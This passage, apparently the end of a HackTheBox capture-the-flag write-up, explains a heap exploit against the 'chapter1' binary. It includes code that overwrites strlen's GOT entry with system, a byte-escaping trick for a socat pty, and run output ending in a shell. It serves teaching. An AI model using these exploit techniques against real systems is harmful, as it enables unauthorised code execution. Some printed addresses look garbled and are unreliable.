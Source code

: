     # live means remote which is probably pty enabled target
    if(args.live):
        payload = payload.replace(b"\x7f", b"\x16\x7f")

    # edit strlen@got to write system@libc
    edit(0, payload)

If you read the above code you would notice that there is one more hurdle we
must overcome for this to work. The real target on hackthebox is being run with
a `pty` through socat. This means that some characters are understood by socat
to mean specific key presses. In our case this means `\x7f` is backspace. This
byte is likely to exist in our `system` address so we must escape the byte with
`\x16` so that it isn't interpreted as backspace. Once `strlen` is prepped we
can simply call `edit` (which calls strlen) on our command chunk

    r.sendline(b"2")
    r.sendlineafter(b"Index: ", b"4")
    r.interactive()

And we have a shell! Thanks for reading. For questions or more clarification
aboutm my exploit or [pwnc](https://github.com/jhilbs3/pwnc) please feel free
to reach out

    python3 solve.py
    [*] './chapter1'
        Arch:     amd64-64-little
        RELRO:    Partial RELRO
        Stack:    Canary found
        NX:       NX enabled
        PIE:      No PIE (0x3ff000)
        RUNPATH:  b'./glibc-2.23/'
    [+] Starting local process './chapter1': pid 27655
    [!] ASLR is disabled!
    [*] Found puts@libc: 0xa1555553f0270
    [*] Found read@libc: 0xa1555554647a0
    [*] Downloaded libc and based: 0xa155555382000
    [*] Switching to interactive mode
    $ id
    uid=1000(user) gid=1000(user) groups=1000(user),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),116(lpadmin),126(sambashare)
    $  

